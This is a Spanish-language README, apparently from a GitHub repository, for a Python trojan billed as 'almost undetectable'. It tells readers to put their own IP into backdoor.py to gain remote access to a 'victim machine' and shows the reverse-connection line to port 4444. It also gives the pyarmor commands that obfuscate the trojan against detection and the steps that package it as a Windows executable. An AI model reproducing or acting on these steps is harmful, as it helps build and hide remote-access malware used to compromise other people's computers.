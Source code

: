 # Troyano

Un troyano es un tipo de software malicioso que se disfraza de una aplicación legítima o atractiva para engañar a los usuarios y ganar acceso no autorizado a sus sistemas o dispositivos.

Troyano casi indetectable.

### Instalación

Descargar el repositorio de Github luego configurar el script **backdoor.py** con tu IP para poder tener acceso remoto a la maquina victima

```python
conexion.connect(("192.168.1.10", 4444))
```


### Ofuscacion

Para hacer indetectable el troyano deberes instalar **pyarmor**

```
pip install pyarmor
```

Ahora ofuscamos el troyano con el siguiente comando:

```
pyarmor gen troyano.py
```

Luego de esto nos creara una carpeta Dist con el troyano ofuscado, por ultimo convertiremos **.py** a **.exe** con auto-py-to-exe.

```
pip install auto-py-to-exe
```